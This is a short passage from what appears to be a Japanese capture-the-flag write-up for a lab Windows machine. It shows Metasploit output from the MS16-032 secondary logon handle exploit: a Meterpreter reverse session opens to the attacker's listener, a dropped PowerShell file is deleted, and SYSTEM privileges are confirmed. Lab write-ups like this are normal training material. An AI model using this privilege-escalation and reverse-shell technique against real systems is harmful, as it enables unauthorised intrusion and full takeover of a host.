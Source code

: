 ```
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

17FuzO8dLYkCWZMGou4F9yXl31Cn71IL
[+] Executed on target machine.
[*] Sending stage (176195 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.14.7:4444 -> 10.10.10.8:49185) at 2020-06-05 04:32:21 -0400
[+] Deleted C:\Users\kostas\AppData\Local\Temp\FrZYZbuwUY.ps1

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
ms16_032_secondary_logon_handle_privescを使うことでNT AUTHORITY\SYSTEM権限を手に入れることができました。
お疲れ様でした。
